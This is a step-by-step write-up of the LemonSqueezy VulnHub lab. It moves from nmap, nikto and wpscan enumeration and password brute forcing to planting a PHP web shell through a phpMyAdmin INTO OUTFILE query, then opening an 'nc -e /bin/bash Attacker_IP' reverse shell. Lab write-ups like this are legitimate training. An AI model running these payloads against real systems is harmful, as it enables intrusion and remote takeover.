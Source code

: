 # Lemonsquuezy:1 ~vulnhub writeup

**DISCRIPTION**

This is a beginner boot2root challenge.

This is a VMware machine. DHCP is enabled, add lemonsqueezy to your hosts. It’s easypeasy!

Difficulty level: Beginner to intermediate

Author: James Hay

Download link- [https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z](https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z)

1. Find out Target IP address - **nmap -sn 192.168.122.0/24**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled.png)

### Scanning

  2.  Full port scanning - **nmap -p- 192.168.122.143**

*** Port 80 is open

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%201.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%201.png)

  3.   Service version scanning - **nmap -sV -A -p 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%202.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%202.png)

  4.  OS Scanning - **nmap -O 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%203.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%203.png)

   5.  Vulnerability scanning using nmap 

**nmap -sV -A --script vuln -p 80 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%204.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%204.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%205.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%205.png)

   6.  **nikto -h 192.168.122.143**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%206.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%206.png)

** phpmyadmin directory found

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%207.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%207.png)

** CMS - Wordpress

### Enumeration

  7.  Wordpress scanning

Enumerating user - **wpscan —url [http://192.168.122.143/wordpress](http://192.168.122.143/wordpress) -e u**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%208.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%208.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%209.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%209.png)

  8.  Add host in /etc/hosts

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2010.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2010.png)

  9.  Enumerating password

**wpscan —url [http://lemonsqueezy/wordpress](http://192.168.122.143/wordpress) --wordlist /usr/share/seclists/Passwords/darkweb2017.txt --username orange**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2011.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2011.png)

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2012.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2012.png)

### Exploitation

  10.  Login with username orange and password ginger

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2013.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2013.png)

SUCCESSFULLY LOGIN

  11.  Found Password of phpmyadmin

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2014.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2014.png)

  12.  Trying to login in phpmyadmin with username orange and password **n0t1n@w0rdl1st!**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2015.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2015.png)

  SUCCESSFULLY LOGIN

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2016.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2016.png)

  13.  Injecting RCE Payload in SQL Query

**"<?php echo system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/wordpress/rev.php"**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2017.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2017.png)

  14.  Open in browser **[http://lemonsqueezy/wordpress](http://lemonsqueezy/wordpress)/rev.php?cmd=ls**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2018.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2018.png)

  15.  Taking reverse shell and start listening using command - nc -nlvp 8004

[**http://lemonsqueezy/wordpress](http://lemonsqueezy/wordpress)/rev.php?cmd=nc -e /bin/bash Attacker_IP 8004**

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2019.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2019.png)

Capturing user flag

![LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2020.png](LemonSqueezy%201%20Vulnhub%20writeup%20244bfb7371ac401eb637921ade66196e/Untitled%2020.png)
